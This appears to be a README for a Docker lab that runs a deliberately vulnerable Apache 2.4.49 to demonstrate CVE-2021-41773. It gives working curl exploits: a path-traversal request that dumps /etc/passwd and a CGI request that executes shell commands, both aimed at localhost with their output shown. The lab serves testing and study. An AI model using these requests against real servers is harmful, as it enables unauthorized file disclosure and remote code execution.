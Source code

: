CVE-2021-41773 Playground
===

This is a small Docker recipe for setting up a Debian bookworm based container with an instance of the Apache HTTPd (2.4.49) that is vulnerable to [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773).

CGI has been explicitly enabled so it can be used to test/verify Local file Disclosure behavior as well as Remote Command Execution behavior.

Usage
===
```
$ docker-compose build && docker-compose-up
```

Local file disclosure
===
```
$ curl -s --path-as-is "http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Remote Code Execution
===
```
$ curl -s --path-as-is -d 'echo Content-Type: text/plain; echo; id' "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
